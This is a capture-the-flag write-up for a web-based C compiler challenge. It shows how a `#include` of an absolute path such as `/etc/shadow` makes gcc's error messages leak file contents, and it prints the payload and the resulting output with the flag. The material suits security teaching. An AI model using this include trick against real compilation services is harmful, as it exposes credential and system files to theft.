 # free-c-compiler writeup

We get access to a webpage containing a single textbox and a compile button.

## Reconnaissance

To start exploring, we try to get it to do something. We try submitting without filling anything in in the form.

The page responds with an error message:

```
/usr/lib/gcc/x86_64-linux-gnu/7/../../../x86_64-linux-gnu/Scrt1.o: In function `_start':
(.text+0x20): undefined reference to `main'
collect2: error: ld returned 1 exit status
```

This looks an awful lot like the error output of `gcc`, the GNU C Compiler.


Next up, we try typing in some random garbage, and we get an error again:

```
/tmp/cc752754060/main.c:1:1: error: unknown type name ‘sfoiniosfnoos’
 sfoiniosfnoos
 ^~~~~~~~~~~~~
/tmp/cc752754060/main.c:2:1: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ at end of input
 spfneo
 ^~~~~~
```

It looks like the code we submit is placed in a `main.c` file in some temporary folder.

Let's try putting in a valid program, and see if it gets executed. I am very lazy, so I search online for a simple hello world program in C.

```c
#include<stdio.h>

int main(void) {
    printf("Hello World\n");
    return 0;
}
```

Unfortunately, it does not look like the program actually gets executed. We now do not get any error output, but a link to click to download the compilation output. The link goes to `/download.php?id=1383788887`. Since the id is probably used in a path to locate your compile results, you could have tried some path traversal attacks. These attempts will lead nowhere because the parameter is always casted to an integer.

## Constructing an exploit

We return to refocus on the input textarea.
You might have noticed the `#include` instruction in the previous hello world program. An internet search for this directive leads us to [the gnu documentation](https://gcc.gnu.org/onlinedocs/cpp/Include-Syntax.html)

The documentation learns us that there are 2 variants, `#include <filename>` and `#include "filename`. The first variant will look in a list of standard system directories, but the second variant will allow us to include an arbitrary file.

Let's experiment a bit, and try to include a file we know we created previously.

```c
#include "/tmp/cc752754060/main.c"
```

As expected, we get an error back:

```
In file included from /tmp/cc538047313/main.c:1:0:
/tmp/cc752754060/main.c:1:1: error: unknown type name ‘sfoiniosfnoos’
 sfoiniosfnoos
 ^~~~~~~~~~~~~
/tmp/cc538047313/main.c:1:0: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ at end of input
 #include "/tmp/cc752754060/main.c"
```

But, we notice that the error message includes text that is present in the file that we just included.
We can use the `#include` directive to read the first line of arbitrary files.

We can only read files, we can't list the contents of directories.
So we have to make an accurate guess as to which file will contain the passwords we want to steal.

On a modern linux system, passwords are stored in `/etc/shadow`.
Under normal circumstances, this file is only readable for `root`, but it's worth it to give it a shot anyways.

## Exploit

We try to include `/etc/shadow`

```c
#include "/etc/shadow"
```

`/etc/shadow` is not a valid C header file, so the compiler spits out some error messages.
Of course, these error messages include the line that caused the error.

```
In file included from /tmp/cc1401467993/main.c:1:0:
/etc/shadow:1:5: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘:’ token
 root:FLG{8485fd422ec48dbbdc446e68376189e0750650d1b94a}:17847:0:99999:7:::
     ^
/etc/shadow:1:10: error: invalid suffix "fd422ec48dbbdc446e68376189e0750650d1b94a" on integer constant
 root:FLG{8485fd422ec48dbbdc446e68376189e0750650d1b94a}:17847:0:99999:7:::
          ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/etc/shadow:1:55: error: expected identifier or ‘(’ before ‘:’ token
 root:FLG{8485fd422ec48dbbdc446e68376189e0750650d1b94a}:17847:0:99999:7:::
                                                       ^
```

It seems like we found our flag in the password field of the `root` account.

## Background information

In a normal system, `/etc/shadow` is only readable by the `root` account, and it contains hashed passwords instead of flags.

The last line of the assignment reads:

> Let's start by stealing some passwords to hack ourselves into the mainframe.

This should have hinted you to start looking at the `/etc/passwd` or the `/etc/shadow` files once you figured out that you can include arbitrary files.

Both files contain the flag, and to make the challenge slightly easier, we made `/etc/shadow` world-readable.
